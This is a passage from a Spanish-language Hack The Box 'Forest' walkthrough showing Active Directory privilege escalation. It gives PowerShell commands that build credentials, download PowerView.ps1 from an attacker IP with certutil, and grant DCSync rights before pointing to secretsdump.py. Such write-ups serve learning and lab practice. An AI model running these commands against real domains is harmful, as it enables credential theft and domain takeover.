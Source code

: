 Seteamos el privilegio DCsync.

![list](/assets/img/forest/Kali-2022-09-14-00-48-15.png){:.lead width="800" height="100" loading="lazy"}

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
Definimos las credenciales.

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\axel123', $SecPassword)
```

Descargamos el binario de PowerView-ps1 y lo traemos a la maquina victima el cual 

ejecuta la funcion para asignar el privilegio y estas credenciales al dominio.


![list](/assets/img/forest/Kali-2022-09-14-00-52-39.png){:.lead width="800" height="100" loading="lazy"}

```bash
certutil.exe -urlcache -split -f http://10.10.14.15/PowerView.ps1 PowerView.ps1
```

```bash
Import-Module .\PowerView.ps1
```

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,dc=local" -PrincipalIdentity axel123 -Rights DCSync
```

Una vez echo eso usaremos la herramienta [secretsdump.py], este script se encarga de realizar 


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.
[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.